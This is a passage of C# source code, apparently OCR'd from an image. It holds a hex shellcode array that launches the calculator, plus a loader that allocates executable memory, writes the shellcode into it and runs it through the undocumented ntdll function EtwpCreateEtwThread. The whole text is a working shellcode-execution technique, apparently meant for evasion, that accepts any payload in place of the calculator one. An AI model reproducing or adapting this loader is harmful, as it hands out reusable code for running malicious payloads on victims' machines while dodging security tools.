 ```cs
                0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
                0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,
                0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,
                0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
                0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,
                0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
                0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
                0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,
                0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,
                0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
                0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,
                0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,
                0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
                0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,
                0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x00
            };
            if (IntPtr.Size == 4)
            {
                shellcode = calc32bitShellCode;
            }
            else
            {
                shellcode = calc64bitShellCode;
            }

            IntPtr procHandle = Process.GetCurrentProcess().Handle;

            IntPtr allocMemAddress = VirtualAllocEx(procHandle, IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

            UIntPtr bytesWritten;
            WriteProcessMemory(procHandle, allocMemAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

            EtwpCreateEtwThread(allocMemAddress, IntPtr.Zero);

            Console.ReadLine();
        }

        [DllImport("kernel32.dll")]
        public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress,
            uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess,
            IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = true)]
```